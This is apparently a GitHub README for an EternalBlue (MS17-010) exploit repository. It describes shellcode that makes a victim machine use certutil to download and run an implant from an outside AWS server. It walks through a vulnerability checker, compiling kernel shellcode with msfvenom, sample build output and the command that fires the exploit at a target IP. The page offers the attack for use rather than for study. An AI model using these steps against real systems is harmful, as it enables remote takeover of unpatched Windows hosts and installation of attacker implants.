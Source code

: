 # MS17-010 Exploit Code

This is some  public exploit code that generates valid shellcode for the eternal blue exploit that instructs the victim using Certutil tool to download an implant from an internet AWS server and execute it.

This version of the exploit is prepared in a way where you can exploit eternal blue WITHOUT metasploit, or reverse shells (no need to use ncat listenning)

This allows for this version of the MS17-010 exploit to be a bit more flexible, and also fully functional, as many exploits leave out the steps to compile the kernel shellcode that usually comes with it.

Included is also an enternal blue checker script that allows you to test if your target is potentially vulnerable to MS17-010

run `python eternal_checker.py <TARGET-IP>`


# Requirements
Core exploit code requires impacket and the `mysmb.py` library (included with the repo). To install any requirements simply use pip on the `requirements.txt` file. It's always recommended you use a virtual environment like `venv` when installing python dependencies, but use whatever you like.

Additionally, the helper scripts below require the Metasploit Framework to be installed. At minimum you will need `msfvenom` for the `shell_prep.sh` but stageless command shells can be caught like any normal command shell without the use of Metasploit's multi/handler. Otherwise, simply install the metasploit framework and insure it is in your path.

#### IMPORTANT SUPPORT INFO:
Keep in mind `python2` is *not* officially supported anymore. The original exploit code that is provided was initially built for python2, going forward any errors discovered will be adjusted for insuring the code works with python3 instead of python2. Instructions below assume python/pip are `python3` by default, so if you are using `python2` update based on your own paths when necessary and remember, it is *NOT* officially supported by this repo.
## Python2
`pip2.7 install -r requirements.txt`

## Python3
`pip install -r requirements.txt`

## TODO:
- [x] Validate python3 compatibility
- [ ] Testing with non-msfvenom shellcode

## VIDEO TUTORIALS:
- https://www.youtube.com/watch?v=p9OnxS1oDc0
- https://youtu.be/2FwqryKUoX8


## USAGE:
Navigate to the `shellcode` directory in the repo:

run ./shell_prep.sh

OUTPUT:
```
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
'Compiling x86 kernel shellcode'
kernel shellcode compiled
Generating payload to download and execute zoom.exe using certutil...
Running the 'init' command for the database:
Existing database found, attempting to start it
Starting database at /home/nicolas/.msf4/db...pg_ctl: another server might be running; trying to start server anyway
server starting
success
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 364 bytes
Saved as: sc_x64_msf.bin
Payload for x64 generated.
MERGING KERNEL SHELLCODE WITH MSFVENOM-GENERATED PAYLOAD!
Shellcode merged successfully.
DONE
```

## PWN:
If you have completed the USAGE steps, now you're ready to PWN the target.

navigate back to Eternal-Blue-with-RCE directory

run: `python3 eternalblue_exploit10.py <TARGET-IP> shellcode/sc_x64.bin <Number of Groom Connections (optional)>`



